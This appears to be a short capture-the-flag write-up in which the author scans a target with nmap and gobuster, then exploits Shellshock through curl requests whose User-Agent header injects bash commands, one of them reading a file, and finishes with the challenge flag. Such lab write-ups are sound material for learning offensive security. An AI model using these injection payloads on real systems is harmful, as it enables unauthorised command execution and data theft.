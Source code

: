 # INSIDE

<img width="1918" height="766" alt="image" src="https://github.com/user-attachments/assets/8a650de6-a5ba-49fd-bf4c-2ff8b9bd1abd" />

```
nmap -sCV 54.219.223.93
```

<img width="843" height="351" alt="image" src="https://github.com/user-attachments/assets/fbbade4f-73c2-4d31-b100-b54d2783f51a" />


```
gobuster dir -w /home/kali/Downloads/wordlists/directory-list-2.3-medium.txt -u http://54.219.223.93
```

<img width="587" height="206" alt="image" src="https://github.com/user-attachments/assets/99ee7e7f-cc6a-497e-b177-e2f6728e19dc" />



> ## shellshock



```
curl -s -D - \
  -H 'User-Agent: () { :; }; /bin/bash -c "echo; echo VULNTEST"' \
  'http://13.56.213.177/cgi-bin/status?_cb=1' | sed -n '1,200p'

```





```
curl -s -D - \
  -H 'User-Agent: () { :; }; /bin/bash -c "echo; echo START; cat /home/inside; echo END"' \
  'http://13.56.213.177/cgi-bin/status?_cb=ts' | sed -n '1,200p'

```


 
```
FLAG{InSiDe_ShOcK_WaVe_StAy_HoMe_StAy_SaFe}
```











